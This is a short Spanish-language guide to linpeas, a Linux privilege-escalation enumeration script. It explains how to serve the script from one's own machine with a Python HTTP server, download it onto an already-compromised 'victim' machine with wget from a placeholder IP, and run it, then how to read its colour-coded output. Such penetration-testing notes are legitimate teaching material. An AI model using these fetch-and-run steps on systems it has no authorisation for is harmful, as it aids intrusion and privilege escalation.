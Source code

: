 # linpeas - privesc script
# Otras versiones -> https://github.com/carlospolop/PEASS-ng/releases
linpeas es un script en bash que ejecuta una gran cantidad de comandos para detectar missconfigurations en un servidor Linux
y cuya finalidad es proporcionar caminos de escalada de privilegios. Es muy util en situaciones en las que ya contamos con
acceso a la maquina victima ya sea por ssh o por RCE.

Una vez descargado el script deberemos transferirlo a la maquina victima. Esto se puede hacer muy sencillo abriendo un servidor
con python en nuestra maquina local y descargandola desde la victima. Tambien se puede hacer con scp. Despues bastara con ejecutarlo
en la maquina victima


Maquina local(host):

    cd /ruta/local/linpeas/linpeas.sh
    
    python3 -m http.server 9001


Maquina remota(victim):

    wget http://[IP_MAQUINA_LOCAL]:9001/linpeas.sh
    
    chmod +x linpeas.sh
    
    ./linpeas.sh
 
 
Una vez analicemos su output, deberemos fijarnos principalmente en el contenido que tenga el fondo naranja, aunque llamara la atencion
segun vaya generando el output. En caso de no reportar nada en naranja, deberemos mirar el color rojo, ya que puede existir un
metodo de ecalada de privilegios en alguno de estos casos.
